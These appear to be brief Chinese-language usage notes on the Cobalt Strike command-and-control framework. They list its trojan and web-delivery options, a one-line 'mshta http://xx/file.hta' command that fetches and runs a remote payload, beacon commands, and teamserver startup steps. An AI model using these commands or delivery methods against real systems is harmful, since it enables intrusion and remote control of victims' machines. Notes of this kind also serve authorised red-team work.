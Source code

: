 https://mp.weixin.qq.com/s/F1H4ReV71gK7JeoYxV3n5g
https://github.com/k8gege/Aggressor/releases/tag/cs


## 工具栏

![](https://s2.loli.net/2022/05/18/ot2CiV7mMeKuLq5.jpg)

攻击
- Office木马, 生成后监制到docm
- 分阶段木马 - 无法选择中转监听器
- 无阶段木马

Web Drive-by:
- Manage 管理当前Team Server开启的所有web服务
- Clone Site 克隆某网站
- Host File 在Team Server的某端口提供Web以供下载某文件
- Scripted Web Delivery 为payload提供web服务以便于下载和执行
- System Profiler 用来获取系统信息:系统版本, Flash版本,浏览器 版本等

## 攻击类型
```bash
# 1. exe
# 2.hta
mshta http://xx/file.hta
```
## 使用
```ts
sleep 0
shell ipconfig
```
## installation
```bash
chomd 777 teamserver
./teamserver 192.168.159.130 pass
```

如果报错,设置内存
```bash
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar
# jdk11 启动
```
